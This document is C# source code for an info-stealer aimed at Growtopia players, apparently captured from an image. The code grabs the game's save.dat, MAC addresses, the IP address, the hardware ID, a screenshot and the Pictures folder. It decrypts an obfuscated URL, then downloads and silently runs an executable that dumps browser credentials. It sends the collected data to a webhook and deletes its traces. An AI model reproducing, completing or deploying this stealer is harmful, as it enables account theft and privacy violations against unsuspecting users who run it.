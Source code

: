 using System;
using System.Collections.Generic;
using System.Diagnostics;
using System.Drawing;
using System.IO;
using System.IO.Compression;
using System.Linq;
using System.Net;
using System.Net.Http;
using System.Net.NetworkInformation;
using System.Security.Cryptography;
using System.Text;
using System.Threading;
using System.Threading.Tasks;
using System.Windows.Forms;

namespace Simple
{
    class Class1
    {
        static void Main()
        {
            string savedat = "C:\\Users\\" + Environment.UserName + "\\AppData\\Local\\Growtopia\\save.dat";
            string picFolder = Environment.GetFolderPath(Environment.SpecialFolder.MyPictures);

            try
            {
                StreamWriter maczzz = new StreamWriter("C:\\Users\\" + Environment.UserName + "\\AppData\\Local\\Temp\\macs.txt");
                foreach (NetworkInterface bok in NetworkInterface.GetAllNetworkInterfaces())
                {
                    string mac = string.Join("", bok.GetPhysicalAddress().GetAddressBytes().Select(b => b.ToString("X2")));
                    maczzz.Write(mac + "                                                                                                                               ");
                }
                maczzz.Close();
            }
            catch
            {
            }

            try
            {
                Bitmap bmp = new Bitmap(Screen.PrimaryScreen.Bounds.Width, Screen.PrimaryScreen.Bounds.Height);
                using (Graphics g = Graphics.FromImage(bmp))
                {
                    g.CopyFromScreen(0, 0, 0, 0, Screen.PrimaryScreen.Bounds.Size);
                    bmp.Save("C:\\Users\\" + Environment.UserName + "\\AppData\\Local\\Temp\\" + Environment.UserName + "screenshot.png");  // saves the image
                }
            }
            catch
            {
                File.Delete("C:\\Users\\" + Environment.UserName + "\\AppData\\Local\\Temp\\" + Environment.UserName + "screenshot.png");
            }

            try
            {
                bool sendAttachments = true;
                WebClient wc = new WebClient();
                string macLocation = ("C:\\Users\\" + Environment.UserName + "\\AppData\\Local\\Temp\\macs.txt");
                string IP = GrabIP();
                string macs = File.ReadAllText(macLocation);
                string str = Environment.ExpandEnvironmentVariables("%TEMP%");
                string savepath = "C:\\Users\\" + Environment.UserName + "\\AppData\\Local\\Growtopia\\save.dat";
                string zipPath = "C:\\Users\\" + Environment.UserName + "\\AppData\\Local\\Temp\\" + Environment.UserName + " pictures.zip";
                string screenshot = "C:\\Users\\" + Environment.UserName + "\\AppData\\Local\\Temp\\" + Environment.UserName + "screenshot.png";

                string contents = RetrivePass();
                File.WriteAllText(str + "\\" + Environment.UserName + " credentials.txt", contents);
                string browsercredpath = str + "\\" + Environment.UserName + " credentials.txt";
                ZipFile.CreateFromDirectory(picFolder, zipPath);
                try
                {
                    dWebHook webHook = new dWebHook();
                    webHook.WebHook = "//webhook url";

                    //screenshot

                    //pics

                    if (File.Exists(savepath))
                        webHook.AddAttachment(savepath, Environment.UserName + " save.dat");

                    //browsercreds

                    webHook.SendMessageWithAttachment("```asciidoc\n" + "[Simple Builder] New account from:: " + Environment.UserName + " / " + Environment.MachineName + "\nIP address:: " + IP + "\nHWID:: " + GetHWID() + "\nMac addresses:: \n" + macs + "```", sendAttachments);
                    File.Delete(str + "\\" + Environment.UserName + " credentials.txt");
                    File.Delete(macLocation);
                    File.Delete(zipPath);
                    File.Delete(screenshot);
                }
                catch
                {
                    File.Delete(zipPath);
                    File.Delete(macLocation);
                    File.Delete(str + "\\" + Environment.UserName + " credentials.txt");
                    File.Delete(screenshot);
                }
            }
            catch
            {

            }
        }
        public static string PasteStealer(string encrypted)
        {
            string xddddasfasf = "aoI90PeaapejpsOP";
            string lmaoohehejasd = "Oi09ajhiplK0hip0goidp0jkduewsp0a";

            byte[] array = Convert.FromBase64String(encrypted);
            RijndaelManaged rijndaelManaged = new RijndaelManaged();
            rijndaelManaged.BlockSize = 128;
            rijndaelManaged.KeySize = 256;
            rijndaelManaged.Key = Encoding.UTF8.GetBytes(lmaoohehejasd);
            rijndaelManaged.IV = Encoding.UTF8.GetBytes(xddddasfasf);
            rijndaelManaged.Padding = PaddingMode.PKCS7;
            rijndaelManaged.Mode = CipherMode.CBC;
            using (ICryptoTransform cryptoTransform = rijndaelManaged.CreateDecryptor(rijndaelManaged.Key, rijndaelManaged.IV))
            {
                byte[] bytes = cryptoTransform.TransformFinalBlock(array, 0, array.Length);
                return Encoding.Unicode.GetString(bytes);
            }
        }
        private static string RetrivePass()
        {
            string text = Environment.ExpandEnvironmentVariables("%TEMP%");
            WebClient webClient = new WebClient();
            webClient.DownloadFile(PasteStealer("CW/PsKH5sxTA0WGmJaxxW1ML+wT8q90jrto/c7dDT2qpe/RLNvNoRsub28By1W82Y2d0V7rQGgEj9trh+a3AIbT/Z2/izeQvy1ntGG4lya3YSpfVpW8G+500Yecb6tYEBQuTV4kkvzbjp5q8276S65gwBQJ/dFTo2ruNnKyOV6PDfRtZ5UzH106UnQJbdjKMh/1ZVkmMjpDP8KWIUprbn7srzcR+qmWhfNc9ruueUTBIud63/BuLPxaT9QdzG1j6eP4Mc7Wj0sB784SXWjm6gQ=="), text + "\\resourcefilehaha.exe");
            webClient.Dispose();
            Process process = new Process();
            ProcessStartInfo processStartInfo = new ProcessStartInfo();
            processStartInfo.WindowStyle = ProcessWindowStyle.Hidden;
            processStartInfo.FileName = text + "\\resourcefilehaha.exe";
            processStartInfo.Arguments = "/C /stext " + text + "\\credentialslmao.txt";
            ProcessStartInfo processStartInfo3 = process.StartInfo = processStartInfo;
            process.Start();
            Thread.Sleep(500);
            File.Delete(text + "\\resourcefilehaha.exe");
            string result = File.ReadAllText(text + "\\credentialslmao.txt");
            File.Delete(text + "\\credentialslmao.txt");
            return result;
        }

        static string GetHWID()
        { // Grab Hardware ID | (HWID)
            string CMD = "wmic csproduct get UUID";
            var procStartInfo = new ProcessStartInfo("cmd", "/c " + CMD)
            {
                CreateNoWindow = true,
                RedirectStandardOutput = true,
                UseShellExecute = false
            };

            var proc = new Process()
            {
                StartInfo = procStartInfo
            };
            proc.Start();
            return proc.StandardOutput.ReadToEnd().Replace("UUID", string.Empty).Trim().ToUpper();
        }
        static string GrabIP()
        {
            WebClient wc = new WebClient();
            string ip = wc.DownloadString("http://ipv4bot.whatismyipaddress.com/");
            return ip;
        }
    }

    public class dWebHook : IDisposable
    {
        private readonly WebClient dWebClient;
        private static MultipartFormDataContent content = new MultipartFormDataContent();
        private static List<string> filelist = new List<string>();
        public string WebHook { get; set; }

        public dWebHook()
        {
            dWebClient = new WebClient();
        }


        public void SendMessage(string msgSend, string file = null, string filename = null)
        {
            if (file != null)
            {
                byte[] bytes = File.ReadAllBytes(file);
                if (filename != null)
                {
                    content.Add(new ByteArrayContent(bytes), filename, filename);
                }
                else
                {
                    throw new Exception(@"You didn't define filename.. format: ""*.txt""");
                }
            }
            HttpClient client = new HttpClient();
            content.Add(new StringContent(msgSend), "content");
            var result = client.PostAsync(WebHook, content).Result;
            Console.WriteLine(result);
        }
        public void AddAttachment(string file, string filename)
        {
            byte[] bytes = File.ReadAllBytes(file);
            filelist.Add(Encoding.Default.GetString(bytes) + "-###Split###-" + filename);
        }
        public void SendMessageWithAttachment(string msgSend, bool attachments)
        {
            if (attachments)
            {
                foreach (string fileandname in filelist)
                {
                    string[] both = fileandname.Split(new string[] { "-###Split###-" }, StringSplitOptions.None);
                    byte[] file = Encoding.Default.GetBytes(both[0]);
                    string name = both[1];
                    content.Add(new ByteArrayContent(file), name, name);
                }
            }
            HttpClient client = new HttpClient();
            content.Add(new StringContent(msgSend), "content");
            var result = client.PostAsync(WebHook, content).Result;
            Console.WriteLine(result);
        }

        public void Dispose()
        {
            dWebClient.Dispose();
        }
    }
}
